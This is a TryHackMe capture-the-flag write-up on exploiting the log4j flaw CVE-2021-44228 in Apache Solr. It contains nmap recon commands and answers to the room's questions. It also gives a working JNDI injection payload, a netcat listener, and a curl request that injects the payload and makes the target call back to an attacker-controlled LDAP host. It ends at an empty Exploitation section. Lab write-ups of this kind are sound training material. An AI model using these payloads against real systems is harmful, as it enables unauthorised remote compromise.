 # WORK IN PROGRESS...
# TryHackMe: Solar, exploiting log4j

_Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun._

[Solar, exploiting log4j](https://tryhackme.com/room/solar)

* * * * * 
* * * * *

## Reconnaissance

Run a basic nmap scan against vulnerable machine:
```
nmap -v IP_ADDRESS
```

Scan all ports on machine via nmap:
```
nmap -v -p- IP_ADDRESS
```

The default Port that SOLR (Apache Solr) runs on is **Port 8983**.

* * *

## Discovery

Download the files `solrlogs`.

What is the `-Dsolr.log.dir` argument set to, displayed on the front page?
```
-Dsolr.log.dir=/var/solr/logs
```

Which file includes contains this repeated entry? (Just the filename itself, no path needed)

```
solr.log
```

What "path" or URL endpoint is indicated in these repeated entries?
```
/admin/cores
```

Viewing these log entries, what field name indicates some data entrypoint that you as a user could control?
```
params
```

* * *

## Proof of Concept

```
http://IP_ADDRESS:8983/solr/admin/cores
```

General payload to abuse log4j vulnerability CVE-2021-44228:
```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```

_JNDI = Java Naming and Directory Interface_

_`ldap://` schema = target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the Lightweight Directory Access Protocol (LDAP) protocol_

Where to supply the inject syntax:
* Input boxes, user and password login forms, data entry points within applications
* HTTP headers such as `User-Agent`, `X-Forwarded-For`, or other customizable headers
* Any place for user-supplied data

Prepare a `netcat` listener on any port of your choosing:
```
nc -lnvp 9999
```

Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility:
```
curl 'http://10.10.236.228:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'
```

* * *

## Exploitation

